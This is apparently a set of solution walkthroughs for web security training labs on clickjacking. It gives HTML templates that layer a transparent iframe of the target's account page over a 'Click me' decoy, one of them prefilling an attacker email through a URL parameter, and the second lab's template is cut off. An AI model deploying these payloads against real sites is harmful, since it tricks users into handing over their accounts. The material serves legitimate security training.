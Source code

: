 ### Lab: Clickjacking with form input data prefilled from a URL parameter

1.  Log in to the account on the target website.
2.  Go to the exploit server and paste the following HTML template into the "Body" section :  
    `<style>  
       iframe {  
           position:relative;  
           width:$width_value;  
           height: $height_value;  
           opacity: $opacity;  
           z-index: 2;  
       }  
       div {  
           position:absolute;  
           top:$top_value;  
           left:$side_value;  
           z-index: 1;  
       }  
    </style>  
    <div>Test me</div>  
    <iframe src="$url?email=hacker@attacker-website.com"></iframe>  
    `
3.  Make the following adjustments to the template:
    -   Replace $url with the URL of the target website's user account page, which contains the "Update email" form.
    -   Substitute suitable pixel values for the $height_value and $width_value variables of the iframe (we suggest 700px and 500px respectively).
    -   Substitute suitable pixel values for the $top_value and $side_value variables of the decoy web content so that the "Update email" button and the "Test me" decoy action align (we suggest 400px and 80px respectively).
    -   Set the opacity value $opacity to ensure that the target iframe is transparent. Initially, use an opacity of 0.1 so that you can align the iframe actions and adjust the position values as necessary. For the submitted attack a value of 0.0001 will work.
4.  Click "Store" and then "View exploit".
5.  Hover over "Test me" and ensure the cursor changes to a hand indicating that the div element is positioned correctly. If not, adjust the position of the div element by modifying the top and left properties of the style sheet.
6.  Once you have the div element lined up correctly, change "Test me" to "Click me" and click "Store".
7.  Now click on "Deliver exploit to victim" and the lab should be solved.

### Lab: Clickjacking with a frame buster script

1.  Log in to the account on the target website.
2.  Go to the exploit server and paste the following HTML template into the "Body" section:  
    `<style>  
       iframe {  
           position:relative;  
           width:$width_value;  
           height: $height_value;  
           opacity: $opacity;  
           z-index: 2;  
       }  
       div {  
           position:absolute;  
           top:$top_value;  
           left:$side_value;  
           z-index: 1;  
       }  
    </style>  
    <div>Test me</div>  
    <iframe sandbox="allow-forms"  